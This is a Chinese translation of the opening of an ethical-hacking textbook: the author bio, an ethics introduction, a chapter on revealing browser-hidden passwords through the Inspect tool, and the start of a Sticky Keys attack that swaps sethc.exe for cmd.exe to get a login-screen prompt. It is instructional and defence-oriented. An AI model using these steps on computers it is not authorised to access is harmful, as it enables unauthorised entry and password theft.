# 网络攻击与防御入门指南


## 关于作者

Bryson Payne 博士是一位获奖的网络教练、作家和 TEDx 演讲者，也是北佐治亚大学网络运营教育中心的创始主任，该中心是 NSA-DHS 网络防御学术卓越中心。他是 UNG 的计算机科学终身教授，自 1998 年以来一直在那里教授有志于成为程序员和网络专业人员的学生，包括指导 UNG 在全国排名第一的 NSA Codebreaker Challenge 网络运营团队。2017 年，他获得了佐治亚大学系统校长服务卓越领导者奖。他还获得了美国陆军学员司令部颁发的陆军部指挥官公共服务奖章，以及军事网络专业人员协会颁发的索尔勋章。Payne 博士还被 UNG 校友会评为 2021 年杰出教授。

Payne 博士是认证信息系统安全专家（`CISSP`）和认证道德黑客（`CEH`），并持有精英 SANS|GIAC `GPEN`、`GRID` 和 `GREM` 认证。他为劳动力发展、技术教育和网络安全撰写了超过 4500 万美元的成功资助申请，并通过他在编程和道德黑客方面的在线课程培训了超过 60,000 名学生，包括三门评分很高的 Udemy 课程。他还是 UNG 计算机科学系的第一任系主任，并喜欢与全球 K-12 学校合作，推广计算机科学和网络安全教育。

Payne 博士拥有佐治亚州立大学计算机科学博士学位。他曾被《华尔街日报》、《Campus Technology》和《CIO》杂志报道，也是《Teach Your Kids to Code》和《Learn Java the Easy Way》的作者，这两本书均由 No Starch Press 出版。他从事编程、黑客攻击和软件逆向工程已有 36 多年；他于 1985 年将第一个付费程序以 10 美元的价格卖给了《RUN Magazine》（Commodore 64）的“Magic”专栏。除了对技术的热爱，Payne 博士还喜欢学习语言，能说西班牙语、法语、俄语和普通话。

## 关于技术审稿人

Bryan Fagan 是一位编程爱好者，居住在佐治亚州达洛尼加，大部分时间都在教高中生网络安全知识。他创办了几个课后项目，专注于工程、技术和数字游戏设计。

# 致谢

特别感谢 No Starch Press 团队帮助本书成为现实：Bill Pollock、Nathan Heidelberger、Barbara Yien、Dapinder Dosanjh、Liz Chadwick、Jennifer Kelley、Matthew Kim、Annie Choi、Janelle Ludowise、Laurel Chun、Athabasca Witschi、Rachel Monaghan、JoAnne Burek、Lisa Devoto Farrell、Derek Yee、Paula Fleming 和 Paula Williamson。

感谢我的长期同事、同行教育工作者和朋友 Bryan Fagan，他在过去两年中对 Kali Linux 的所有变化以及大多数黑客工具进行了深思熟虑且彻底的技术审阅。

感谢我的妈妈 Esta，在 20 世纪 80 年代初为我买了 Commodore 64 并鼓励我追求梦想——我从未想过编程和黑客技术能带我走多远。感谢我的岳父 Norman，他总是有时间和我聊聊电脑。最重要的是，感谢我美丽的妻子 Bev 和我的儿子 Alex 和 Max，在我写这第三本书时给予的爱与支持——特别感谢你们让我休息一下，去蹦蹦床、做科学实验、玩游戏、看电影和游泳。多亏了你们，这本书和我的生活都变得无限美好且更有趣。

# 介绍


Hacking 是一项实用且有用的技能。在合乎道德的前提下使用时，黑客技术可以帮助你找回遗忘的密码，或访问你以为永远丢失的文件。学习黑客技术还能帮助你保护个人信息免受网络攻击者的侵害。事实上，在坏人之前先对自己进行黑客攻击，是保护自己免受网络犯罪侵害的最佳方式之一。

本书并不鼓励犯罪活动。它旨在教你如何像黑客一样思考，并将这些技能应用于问题解决、网络安全和网上安全。

## Hacking Basics

Hacking 是对已经存在的工具进行新颖或出乎意料的使用。可以将其视为“生活小技巧”，例如使用牙线整齐地切开一块蛋糕，或者重复使用空的薄荷糖容器来存放回形针。自人类来到这个星球以来，我们一直在创造新工具，并为周围发现的事物寻找新用途。

计算机黑客技术与此类似。我们不断地对计算机技术进行新颖和出乎意料的使用。我们可以通过编写一个小应用程序，将一个程序的文件格式转换为另一个程序的格式，从而将两个原本不应协同工作的程序“拼凑”在一起。我们可以黑客攻击网络浏览器或电子表格程序来玩游戏。或者，如果你不小心，其他人可以通过向你发送一封带有病毒的电子邮件来黑客攻击你的计算机，该病毒会让他们访问你的文件、密码，甚至你的网络摄像头。

在本书中，我们将计算机黑客技术视为一种武术——你将学会如何出拳和踢腿，以及如何格挡拳击和踢腿。你将学习如何通过在虚拟实验室中安全地对自己执行相同的黑客攻击，来保护自己和他人免受网络攻击。通过使用黑客使用的相同工具和技术，你将了解需要防御的各种网络威胁。

## Keeping It Ethical

黑客有多种形式，但由于“黑客”一词被滥用得太多，在本书中，我们将自称为道德黑客——以明确我们将出于道德和合法的目的使用所学的黑客技能。当我提到行为非法或不道德的人时，我会使用攻击者或恶意黑客这两个术语。

道德黑客是指在获得系统所有者完全许可的情况下，使用攻击者的工具和技术来测试计算机系统的弱点。道德黑客的目标是发现弱点以改进系统的安全性。我们将此过程称为加固系统——消除和解决弱点，使系统不易受到攻击。

道德黑客也被称为白帽黑客，而黑帽黑客是指不道德地使用网络攻击的人，无论是出于经济利益、破坏行为还是其他邪恶的目的。为了说明这种区别，假设你在人行道上发现了一把钥匙。仅仅找到钥匙并不不道德。事实上，如果你走到最近的房子前，敲门，并询问房主这把钥匙是否是他们的，那将是完全合乎道德的。白帽黑客会询问房主是否不小心掉了钥匙。另一方面，如果你捡起钥匙并开始在街上挨家挨户地尝试，那么你就是在像黑帽黑客一样行事，因为你没有房主的许可使用钥匙或进入他们的房子。

在阅读本书的过程中，你会发现很多公开的数字“钥匙”。例如，一些创造性的谷歌搜索可能会找到当地杂货店安全摄像头的默认用户名和密码。仅仅找到这些信息并不不道德。告诉商店经理安全摄像头可以在线访问也并不不道德。但是，如果你尝试使用用户名和密码查看摄像头的视频，那就是不道德的，因为你没有获得所有者的授权。

未经他人许可访问他人的计算机或设备是不道德的，而且通常是非法的，就像未经许可进入他人房屋属于非法侵入一样，即使他们不小心留着门开着或把钥匙掉在人行道上。人们会根据你的行为来判断你的行为是否合乎道德。像白帽黑客一样进行黑客攻击，并将本书中学到的技能用于善事，而非恶事。

## How This Book Is Organized

本书将向你展示如何发起攻击以及如何防御攻击。每一章都会提升你作为道德黑客的技能水平。

前两章包含你可以立即动手实践的黑客技术，无需任何特殊工具——只需一台普通的计算机和网络浏览器。你将从在第 1 章中黑客攻击你的第一个密码开始，即保存的网络浏览器密码。攻击者觊觎你的密码，因为如果他们能窃取你的登录信息，就能从你的账户中窃取信息或金钱。

在第 2 章中，你将了解如何黑客攻击你可能放在壁橱、车库或阁楼里的旧 Windows PC 或 MacBook，并学习如何找回你以为已经丢失的文件。

在第 3 章中，你将在自己的计算机上构建一个安全的虚拟黑客实验室环境。这将让你安全地练习后面章节中学到的高级黑客技术，而不会让你的计算机或你自己处于危险之中。

在第 4 章中，你将学习黑客如何使用搜索引擎和社交媒体帖子等简单工具，收集他们正在保护或攻击的个人或公司的信息。你还将学习如何保护自己免受利用社交媒体监视潜在受害者的网络掠食者的侵害。

在第 5 章中，你将亲身体验攻击者如何通过钓鱼电子邮件诱骗你泄露用户名和密码，因为你将亲自构建一封钓鱼电子邮件和一个伪造的网站！

在第 6 章中，你将看到攻击者如何使用带有病毒的文件通过互联网远程控制计算机。你将创建一个实际的病毒，并在你的安全虚拟黑客实验室中黑客攻击一台模拟的 Windows 计算机。

在第 7 章中，你将看到黑帽黑客如何从 Windows 计算机上的每个用户那里窃取并“破解”几十个密码，并学习如何让自己的密码更安全。

在第 8 章中，你将发现如何攻击和防御 Web 应用程序。恶意黑客知道，被黑客攻击的 Web 应用程序可能会泄露成千上万甚至数百万用户的信息。

在第 9 章中，你将看到攻击者如何通过创建恶意移动应用程序来窃取你的私人信息（包括短信和照片），从而控制你的智能手机。

在第 10 章中，你将黑客攻击一辆（模拟的）汽车！这个最后的练习展示了攻击者越来越多地将目光从 PC 和手机转向智能家电和其他联网设备的世界。

最后，在第 11 章中，我们将总结 10 件你现在就可以做的事情来保护自己在网上的安全，概括全书中最重要的技巧和提示。几个简单的自我防卫步骤可以防止大多数网络攻击成功。

## Basics of Cyber Self-Defense

在探索接下来章节中的黑客技术时，你将了解更多关于白帽黑客用来保护其防御系统的核心行为。良好的网络自我防御始于了解来自网络掠食者和在线攻击者的危险。下一步是学习如何避免成为易攻击的目标。通过更多练习，你将能够保护自己和他人免受甚至高度复杂的现实世界攻击的侵害。

你可以通过改变使用计算机和其他设备的几个关键方式，从网络受害者转变为网络英雄！让我们开始吧！

## 1 Security Through Obscurity


在本章中，你将开始学习如何像黑客一样思考，以发现安全措施中的弱点。你将发现一个简单的黑客技术，用于揭示网络浏览器中隐藏的密码。这个黑客技术之所以有效，是因为网络浏览器使用“安全通过隐藏”来保护密码。


Security through obscurity 是一种试图通过隐藏某物来保持其安全的技术。在物理世界中，将房屋钥匙藏在前门廊的欢迎垫下是 security through obscurity 的一个例子。你的房子可能 `feel` 安全，但一旦有人想到要看看垫子下面，这种安全性就会立即失效。

隐藏某物以保持其安全不一定是一种坏方法，除非这是你采取的 `only` 安全措施。不幸的是，security through obscurity 经常失败，尤其是当它应用于我们的计算机时。例如，许多用户将密码“隐藏”在计算机上的文本文档或 Excel 电子表格中，或者更糟的是，藏在键盘下的便利贴上或办公桌抽屉里。这些密码比你将在本章中破解的密码更容易找到。同样，一些软件开发人员将模糊的密码和其他机密值硬编码到他们的应用程序中，但熟练的黑客通常可以找到并解码这些值。

正如你将在本章中看到的，如果模糊性是你唯一的安全措施，那么你和一个有动机的入侵者之间仅隔着他们花费一点时间和精力去寻找进入方式。

## 浏览器如何“保护”密码

当你输入密码以登录在线服务（例如电子邮件或社交媒体账户）时，你的网络浏览器通常会用点号或星号隐藏密码。这样，从你肩膀上看过去的人就无法读取它。如果你告诉浏览器保存密码，并且你稍后再次访问该网站，当浏览器为你填写存储的密码时，这些点号或星号会自动出现在密码字段中。

这些点号或星号是 security through obscurity 的一个绝佳示例。你的浏览器并没有加密你的密码，也没有以任何其他特殊方式保护它。它只是模糊了密码字段中的字符，以保护你的密码免受随意窥视者的侵扰。这种技术实际上根本不安全。事实上，黑客只需要在你的键盘前花上几秒钟就可以查看密码。

## 揭示被模糊的密码

要揭示被浏览器模糊的密码，我们将使用浏览器的 Inspect 工具。这个工具允许你查看并临时编辑网页的 `source code`，即告诉浏览器如何显示网页的代码。我们将更改导致密码显示为点号或星号的那段源代码。完成后，密码将以普通文本显示，而不是点号或星号。

这不是那种能够推翻国家或一举泄露数百万人私人数据的黑客攻击。相反，这个黑客攻击说明了黑客的一个指导原则：以创造性的方式使用现有工具（在此例中，浏览器的 Inspect 工具）来实现特定目标——揭示隐藏的密码。同时，这个黑客攻击也展示了在浏览器中存储密码的风险，以防攻击者获得对你计算机的物理访问权限。

让我们尝试这个黑客攻击，以 Twitter 登录页面为例。我们将输入一个假用户名和密码，启动浏览器的 Inspect 工具，并更新源代码以暴露密码。

1. 打开 Google Chrome 并前往 [`twitter.com/login/`](https://twitter.com/login/)。这个黑客攻击在其他浏览器中也有效，但我们将使用 Chrome 以求简单。

2. 在用户名字段中输入你的名字，并在密码字段中输入 `Notmyrealpassword!`。不要输入你的真实密码。密码将被点号模糊，如 Figure 1-1 所示。



Figure 1-1: Web browsers usually obscure passwords with dots or asterisks.

3. 右键单击（或在 Mac 上 CONTROL 单击）密码字段并选择 `Inspect`，如 Figure 1-2 所示。Inspect 工具（看起来像是一堆显示代码的窗口）应该会在你的浏览器中打开。由于你右键单击了密码字段来打开 Inspect 工具，浏览器应该已经高亮显示了创建登录页面中密码字段的那部分代码。



Figure 1-2: Inspecting the password code

4. 在高亮显示的代码中找到 `type="password"`，并双击单词 `password` 将其选中，如 Figure 1-3 所示。这段代码是浏览器识别密码字段的方式。浏览器知道，任何在 type 为 `password` 的字段中的文本都应该被模糊。



Figure 1-3: Finding `type="password"` in the Inspect tool

5. 在 `password` 被高亮显示时，按空格键将 `password` 替换为一个空格（`type=" "`），如 Figure 1-4 所示。我们现在已经更改（或黑客攻击）了密码字段的代码，使浏览器不再知道它应该是一个密码类型的字段。这应该会揭示密码字段中的任何文本！



Figure 1-4: Replacing the word `password` in `type="password"`

6. 按 ENTER 键在浏览器中显示更新后的代码。你现在应该在浏览器窗口中看到你输入的密码以普通文本形式显示，如 Figure 1-5 所示。

这个黑客攻击之所以有效，是因为允许 Web 开发人员创建密码字段的 `<input>` 标签是不安全的——而且已经不安全了四分之一世纪。在 20 世纪 90 年代，当早期的 Web 开发人员将 `<input>` 标签添加到 `HyperText Markup Language (HTML)`（即使网页在 Web 浏览器中显示的语言）时，他们唯一的安全功能就是使用额外的代码 `type="password"` 将密码字符替换为点号或星号。然而，由于普通文本框也使用 `<input>` 标签，我们可以使用 Inspect 工具将密码输入更改为普通文本输入，只需将 `type="password"` 更改为 `type=" "`。



Figure 1-5: The password is now visible.

## 使用和滥用此黑客攻击

我们刚刚进行的黑客攻击具有实际的、合乎伦理的应用。由于存储在浏览器中的密码会自动填充，但在网站登录屏幕上被模糊处理，你可以使用这个简单的黑客攻击来揭示你忘记的密码。如果你将密码存储在一台机器上（例如你的家用电脑），但需要定期从其他机器（例如你的工作电脑、家人的电脑或你的移动设备）登录，这尤其有用。如果你在另一台电脑上尝试登录时记不起密码，你可以在家用电脑上揭示存储的密码来查找，而不是重置密码。

这个黑客攻击还可以以其他合乎伦理的方式使用。例如，如果一名员工意外离开公司，一名获得公司所有者许可的道德黑客可以使用这个黑客攻击来恢复该员工可能负责的重要在线账户的密码。

如果你练习足够多次，你可以轻松地在 5 秒钟内完成这个黑客攻击。然而，这也意味着，如果你在公共电脑上存储了密码，任何拥有该电脑物理访问权限的人只需要 5 秒钟就可以窃取它。一名黑帽黑客可以走进世界上几乎任何地方的酒店大堂或公共图书馆，在一台电脑前坐下，检查浏览器历史记录中最近访问的网站，并查看是否有潜在受害者在登录其私人账户时保存了密码。


你甚至不需要在浏览器中保存密码，别人就能将其泄露。如果你在公共场所，在向网站输入密码时有人分散你对电脑的注意力，他们就可以使用这种攻击窃取你的密码。他们甚至可以修改 `type="password"` 代码并关闭“检查”工具来掩盖行踪！如果你在多个账户中使用了相同的密码，攻击者现在就能访问所有其他账户。

## 保护你的密码

我们讨论过的这种攻击，如果被恶意使用，会对你密码的安全性构成明显风险。不过，有一些简单的方法可以保护你。首先，这种攻击只有在黑客能够物理访问存储密码的情况下才有可能实现，因此防止攻击的关键要么是根本不在浏览器中存储密码，要么是限制以下几点：

1. 你存储密码的位置 仅在你拥有并随身携带的电脑或设备上将密码存储在浏览器中，绝不要在公共电脑上存储。

2. 你存储的密码类型 绝不要存储你的电子邮件密码，因为攻击者通常可以通过你的电子邮件账户发现或重置所有其他密码。

3. 谁可以访问你的电脑 让你的电脑随身携带或存放在安全的地方，即使只离开一分钟，也不要让电脑处于未锁定状态。

如果你必须从公共电脑登录私人账户，请通过在 Chrome 中使用无痕模式（`CTRL-SHIFT-N`）或在 Firefox（`CTRL-SHIFT-P`）或 Safari（`SHIFT-⌘-N`）中打开新的私密窗口，来限制浏览器中存储的信息。完成会话后，请务必同时注销并完全关闭浏览器。即使你注销或使用无痕模式，共享电脑也有风险，因为恶意软件可以记录你的按键或其他信息。（事实上，我们将在第 6 章中使用我们创建的病毒来捕获按键。）只有在绝对必要时，才从公共电脑登录账户。另外，当你回到自己的电脑前，考虑更改你的密码。

如果你在公共场所使用个人电脑，请确保在离开时注销或锁定屏幕——或者更好的做法是，随身携带你的电脑。将锁定屏幕或屏幕保护程序设置为仅在几分钟后启动，以限制电脑处于易受攻击状态的时间，以防你忘记自己锁定它。使用强密码或密码短语（尝试四个或更多单词）来登录你的电脑，而不是像 `password123` 这样显而易见的内容，这样如果电脑无人看管，其他人就无法轻易解锁你的电脑。

除了这些措施之外，你还应该利用其他密码安全工具，例如双因素身份验证以及像 KeePass、Dashlane、LastPass 或类似的密码管理器。我们将在第 11 章讨论这些工具。

保护自己免受电脑攻击需要采取一些明智的预防措施，但了解如何平衡便利性和安全性很重要。将所有密码都存储在浏览器中似乎很方便，因为你永远不需要输入它们，但这也意味着所有能够访问该电脑的人都可以窃取你的密码和账户。我们必须在物理世界和在线环境中，找到便利性和安全性之间的正确平衡。

## 要点

在本章中，你了解到“通过隐蔽实现安全”很容易被击败，因此根本不安全。你学会了如何在几秒钟内，只需几个步骤就揭示在浏览器中输入的密码。你还了解到绝不要在公共或共享电脑上存储密码的重要性。此外，你现在知道如何从你不认识或不信任的人那里物理保护你的电脑——如果有人能触碰你的键盘，他们就可以访问你的敏感信息。

本章讨论的攻击是一个物理访问攻击的示例——攻击者需要物理访问你的电脑才能执行它。在下一章中，你将了解其他物理访问攻击，这些攻击允许黑客从你的硬盘中获取文件，而不需要知道你的登录信息。

## 2

物理访问攻击


你是否曾经在咖啡馆无人看管地留下笔记本电脑，以为你的私人文件会安全地受到登录屏幕的保护？事实证明，任何能够物理访问你电脑的人都可以通过几次按键访问你的文件，而不需要知道你的登录信息。在本章中，我将向你展示两种物理访问攻击：用于 Windows 电脑的粘滞键攻击，以及用于 Mac 的根权限攻击。这两种攻击都会给攻击者提供目标电脑的管理员级访问权限，允许他们窃取文件或更改重要设置。

物理访问攻击听起来可能很可怕，因为攻击者可以在被盗或无人看管的电脑上恶意使用它们。然而，它们也有建设性的应用。家庭和 IT 帮助台的道德黑客使用粘滞键攻击或 Mac 根权限攻击等技术，来恢复因忘记密码而原本会丢失的文件。如果你车库或阁楼里有一台旧电脑，里面存放着家庭照片或其他重要文件，但因为没有人记得电脑的密码而无法访问，这些攻击可以提供帮助。

### 粘滞键攻击

粘滞键是 Windows 的一项功能，它允许你一次按一个键而不是同时按所有键，从而更容易发出某些键盘命令，例如使用 `CTRL-C` 复制或 `CTRL-V` 粘贴。粘滞键通过按五次 `SHIFT` 触发，甚至可以在 Windows 登录屏幕上打开，在输入用户名或密码之前。

对于这次攻击，我们将用另一个文件 `cmd.exe` 替换粘滞键程序文件。这样，按五次 `SHIFT` 将启动命令提示符，而不是启动通常的粘滞键助手。这是一个基于文本的程序，允许我们直接向 Windows 输入命令。通过在登录屏幕上启动命令提示符（参见 图 2-1），你将能够添加新用户名和密码，授予自己对电脑的管理员级访问权限，并访问电脑的文件，而无需知道该电脑上的登录信息！

由于 2019 年或之后更新的 Windows 10 电脑免受粘滞键攻击，你需要一台较旧的 Windows 电脑来亲自尝试这次攻击。你还需要一张 Windows 10 安装光盘或 USB 驱动器。要创建一个，请按照附录 A 中的说明操作。

#### 从 Windows 10 安装光盘启动

要将粘滞键程序替换为命令提示符程序，我们需要使用 Windows 10 安装光盘或 USB 驱动器来访问包含这些程序文件的硬盘。一旦按照附录 A 中的描述创建了安装光盘，插入光盘然后重启电脑。



图 2-1：粘滞键攻击会弹出命令提示符窗口，而不是粘滞键助手。

我们需要告诉电脑从光盘或 USB 驱动器加载操作系统（OS），而不是从电脑的硬盘加载。为此，我们将访问启动菜单或基本输入/输出系统（BIOS），后者包含控制电脑启动时的基本设置。不同的 PC 制造商和不同版本的 Windows 会导致说明略有不同，但以下步骤加上一点网络搜索将能让你进入大多数较旧的 Windows 电脑：


### 访问 Windows 启动菜单或 BIOS

1. 在 Windows 计算机上，你需要按下特殊键来访问启动菜单或 BIOS。如果启动屏幕在 Windows 启动标志出现前没有显示应按哪个键，请重启计算机，并在计算机开始启动时快速按下 ESC、DELETE、F8、F9、F10、F11 或 F12。在线搜索“boot menu”以及你计算机的具体品牌和型号，以找到正确的按键。

2. 如果出现启动菜单，请选择 **Boot from DVD** 或 **Boot from USB** 选项，从你插入的 Windows 安装光盘启动，然后进入步骤 5。

3. 如果重启几次后启动菜单仍未出现，尝试改为进入 BIOS 菜单：关闭计算机再重新开机，并按下 DELETE、F2、F9、F10、F12 或 ESC。在线搜索“BIOS”以及你的计算机型号，以找到正确的按键。

4. 进入 BIOS 后，找到启动选项，更改启动设备的顺序或优先级（通常使用方向键），将 USB 或 DVD 设为首选项。然后保存更改并退出 BIOS。

5. 再次重启计算机。你应当会短暂地看到消息 `Press any key to boot from CD or DVD` 或 `Press any key to boot from USB device`。立即按下任意键（例如空格键）以从 DVD 或 USB 启动。

6. 当 Windows 安装光盘启动后，依次点击 **Next** ▶ **Repair your computer** ▶ **Troubleshoot** ▶ **Command Prompt**，如 Figure 2-2 所示。菜单顺序或选项名称可能有所不同，但请寻找 Windows 命令提示符。

    

    Figure 2-2: Use the Windows installation disc to access the command prompt.

7. 一旦进入 Windows 命令提示符（通常是黑色的文本窗口），输入 `c:` 并按下 **ENTER** 以切换到 C: 驱动器，如下所示：

    ```
    X:\> c:
    ```

8. 输入命令 `dir` 以查看 C: 驱动器上的文件和文件夹列表。寻找名为 `Windows` 的文件夹（它会被标记为 `<DIR>`，即 *directory* 的缩写）。

    ```
    C:\> dir Volume in drive C is Windows 10 Volume Serial Number is B4EF-FAC7 Directory of C:\--snip--
    03/15/2018  02:51 AM    <DIR>            Users
    05/19/2019  10:09 AM    <DIR>            Windows 1--snip--
    ```

    此文件夹包含操作系统文件，包括命令提示符应用程序以及我们需要替换以执行此黑客攻击的 Sticky Keys 程序文件。

9. 如果 C: 驱动器上没有 `Windows` 目录，尝试在 D: 驱动器上执行相同的过程，输入 `d:` 然后输入 `dir`。如果 D: 驱动器也没有 `Windows` 目录，继续按字母顺序（E:、F:、G: 等等）查找，直到找到包含 `Windows` 的驱动器。

### 获取管理员级访问权限

现在将 *sethc.exe* Sticky Keys 程序替换为 *cmd.exe* 命令提示符程序。然后我们就可以在计算机上创建一个新的管理员帐户。

1. 输入以下三个命令：

    ```
    C:\> cd \Windows\System32\
    C:\Windows\System32\> copy sethc.exe sethc.bak
    C:\Windows\System32\> copy cmd.exe sethc.exe
    ```

    这些命令进入可以找到 *sethc.exe* 和 *cmd.exe* 的目录，创建 Sticky Keys 程序的备份副本，并将原始 Sticky Keys 程序文件替换为命令提示符程序文件的副本。这样，每当计算机运行 *sethc.exe* 时，它将打开一个命令提示符窗口，而不是 Sticky Keys 程序。

2. 输入第三个命令后，Windows 会询问你是否要覆盖 *sethc.exe*。输入 `Y` 以继续。

3. 移除 Windows 10 安装 DVD 或 USB 并重启计算机。

4. 当 PC 启动到登录屏幕时，按五次 **SHIFT**。你不应看到通常的 Sticky Keys 程序，而应看到一个命令提示符窗口弹出，显示在登录屏幕 *前面*，如 Figure 2-3 所示。

    

    Figure 2-3: Opening a command prompt window

5. 在命令提示符窗口中输入以下两个命令：

    ```
